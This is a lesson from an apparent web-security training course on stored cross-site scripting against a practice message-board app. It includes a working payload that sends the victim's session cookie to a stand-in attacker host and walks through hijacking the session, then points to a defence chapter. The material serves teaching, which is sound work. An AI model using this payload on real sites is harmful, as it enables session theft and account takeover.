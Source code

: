 XSS 1 - Session jacking!
------------------------

![image](img/Axe.png)


In this chapter we are going to practice **Stored Cross Site Scripting** attacks (or, as it is most commonly called, Stored XSS) to steal the users' session.

To start, try to understand what the *session* is. How does the system know you are logged in? `Charles` might help you in this case.

.. 

.

### Read some stuff

Now, I recommend that you to read what [OWASP has to say about XSS](https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29).

Did you read it? so fast? no no no, click on the link and educate yourself!

.. 

### XSS attack breakdown

1. **The attacker** send a message with a malicious script in it.
2. The script is stored in the database.
2. As **the victim** reads the message, they are printed from the database to the browser and the scripts executes.
3. The script sends **the victim's** cookies to **the attacker's** machine.
4. **The attacker** uses the cookie to log into the system posing as **the victim**.

### Hack some stuff

Cool, now for the fun stuff, you are going to use your newly acquired knowledge to post a malicious message on Gibson's wall. 

Due to the fact that the messages' content is not sanitised, you will be able to inject scripts into it!

For example, post this message: 

```
This message changes the tab's title! <script>document.title="hacked!";</script>
```

### Grab the session

For our next trick we are going to steal the users session cookie!

Take a look at the following code:

```
Just a normal message, nothing to see here! <script>$.get("http://www.attacker.com:3000/?"+document.cookie)</script>
```

See the script in the end if the line? This will send the victim's session (stored in document.cookie) to the `serve` application that is running on the attacker's machine.

If you did it right, in the `serve` screen you should end up with something like this:

![image](img/serve_got_cookie.png)

Us the `Cookie Editor` in your chrome, to change the session id to the victim's session you just captured and refresh the page.

You can consider yourself successful once you've posted a message in the victim's name.

- - - 
#### One you've managed to post a message through the victim's account:
[Move on to play defence!](03-XSS1-defence.md)